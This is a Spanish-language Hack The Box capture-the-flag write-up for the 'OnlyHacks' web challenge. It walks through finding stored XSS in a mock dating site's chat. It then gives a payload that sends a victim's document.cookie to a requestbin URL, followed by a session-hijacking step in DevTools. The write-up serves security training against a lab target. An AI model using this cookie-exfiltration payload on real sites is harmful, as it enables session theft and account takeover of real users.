 ```yaml
---
title: OnlyHacks
description: Dating and matching can be exciting especially during Valentine's, but it’s important to stay vigilant for impostors. Can you help identify possible frauds?
date: 2025-05-14
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-challenges/web_logo.png
categories:
  - Hack The Box
  - Challenges
tags:
  - hack the box
  - xss
  - devtools
  - cookie hijacking
  - web analysis
  - vulnerability exploitation

---
```

## Web Analysis

El sitio web simula una plataforma de citas donde es necesario registrarse y autenticarse para acceder a funcionalidades internas.

![](assets/img/htb-writeup-onlyhacks/onlyhacks1.png)
![](assets/img/htb-writeup-onlyhacks/onlyhacks2.png)

Una vez dentro, en la sección `Dashboard` se pueden aceptar matches y en la sección `Matches` se accede a un sistema de mensajería con distintos usuarios. En particular, se encuentra un chat activo con el usuario `Renata`.

![](assets/img/htb-writeup-onlyhacks/onlyhacks3.png)

Probando la funcionalidad del chat, envío el payload `<script>alert(1)</script>`. Al ser procesado y renderizado, el navegador ejecuta el alert, confirmando la presencia de una vulnerabilidad de Cross-Site Scripting.

![](assets/img/htb-writeup-onlyhacks/onlyhacks4.png)

---
## Vulnerability Exploitation

El sitio [requestbin](https://requestbin.whapi.cloud/) permite generar una URL que registra y muestra las solicitudes HTTP recibidas, útil para capturar información del cliente que interactúa con ella.

Para activar el endpoint generado, realizo una solicitud con curl.

```terminal
/home/kali/Documents/htb/challenges/onlyhacks:-$ curl -X POST -d "fizz=buzz" http://requestbin.whapi.cloud/1lxcu131
ok
```
Con esto verificado, construyo un payload XSS que envía las cookies de la víctima al endpoint generado.

```js
<script>document.location='http://requestbin.whapi.cloud/1lxcu131?c='+document.cookie</script>
```

![](assets/img/htb-writeup-onlyhacks/onlyhacks5.png)

Envío este payload por el chat con Renata y espero la solicitud desde el panel de requestbin.

![](assets/img/htb-writeup-onlyhacks/onlyhacks6.png)

Una vez capturada la sesión, tomo el valor de la cookie session y la sustituyo desde DevTools para suplantar la identidad de Renata.

![](assets/img/htb-writeup-onlyhacks/onlyhacks7.png)

Al recargar la página, accedo al panel como el usuario Renata. Desde allí, puedo ver tanto el chat conmigo como una conversación con otro usuario que contiene la flag.

![](assets/img/htb-writeup-onlyhacks/onlyhacks8.png)

> <a href="https://www.hackthebox.com/achievement/challenge/1521382/860" target="_blank">OnlyHacks Challenge from Hack The Box has been Pwned</a>
{: .prompt-tip }